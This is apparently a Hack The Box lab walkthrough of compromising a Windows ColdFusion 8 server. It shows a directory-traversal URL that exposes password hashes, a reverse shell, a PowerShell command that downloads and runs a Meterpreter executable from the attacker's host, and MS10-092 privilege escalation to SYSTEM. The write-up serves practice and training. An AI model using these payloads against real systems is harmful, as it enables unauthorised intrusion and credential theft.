


# Hackthebox 


Before we start lets spin up a fresh instance of the box.

### Attack Summary

1. Exploit Adobe Cold Fusion 8
2. Exploit MS10-092 schelevator

## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
# Nmap 7.80 scan initiated Sun Oct 20 14:48:11 2019 as: nmap -v -sV -p- -T4 -oA nmap/full_tcp 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.041s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

At port 8500 we find a Cold Fusion install. We can clearly see that it is a Adobe Cold Fusion 8 version and we have and administrative login at "http://10.10.10.11:8500/CFIDE/administrator/"

Searching for exploits reveal a couple that we potentially could use




## Initial Compromise

The problem with this box is that the web application is very slow. I dont really know why but even a freshly reset box is slow.

### Adobe ColdFusion - Directory Traversal

So we could use the "Adobe ColdFusion - Directory Traversal" exploit to extract some hashes and from that a password. 

```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
The hashes are SHA1 hashed. A simple search online and we find that the password for our hash is "happyday".



I was not able to use this password to log in so I went on to another exploit "ColdFusion 8.0.1 Arbitrary File Upload and Execute".

### ColdFusion 8.0.1 Arbitrary File Upload and Execute

There is a Metasploit module present for this exploit which is making things easy for us. The only problem here is that it will fail because the app is so slow.
We can solve this by using burp as proxy in Metasploit and the fire the exploit from Burp instead.

```
root@kali:~/htb# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.11] 49528
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

Next I upgraded the shell to a Meterpreter session by uploading an executable and running it.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.22:8000/met.exe','met.exe')"
```

## Host situational awareness

Running the local exploit suggester module from Metasploit shows that the target is vulnerable to some exploits:

```
Exploit suggester:
[*] 10.10.10.11 - Collecting local exploits for x64/windows...
[*] 10.10.10.11 - 11 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Post module execution completed
```
 
## Privilege Escalation

We can then simply use one of suggested exploits to gain a system shell on the box:

```
msf5 exploit(windows/local/ms10_092_schelevator) > exploit 

[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\sXuWiNWP.exe
[*] Creating task: Kzzt9XjHvJmem0
[*] SUCCESS: The scheduled task "Kzzt9XjHvJmem0" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\Kzzt9XjHvJmem0...
[*] Original CRC32: 0x98752fbb
[*] Final CRC32: 0x98752fbb
[*] Writing our modified content back...
[*] Validating task: Kzzt9XjHvJmem0
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] Kzzt9XjHvJmem0                           1/11/2019 8:30:00    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "Kzzt9XjHvJmem0" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "Kzzt9XjHvJmem0" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (180291 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "Kzzt9XjHvJmem0".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.22:4444 -> 10.10.10.11:49373) at 2019-10-24 23:32:22 +0200
[*] SUCCESS: The scheduled task "Kzzt9XjHvJmem0" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
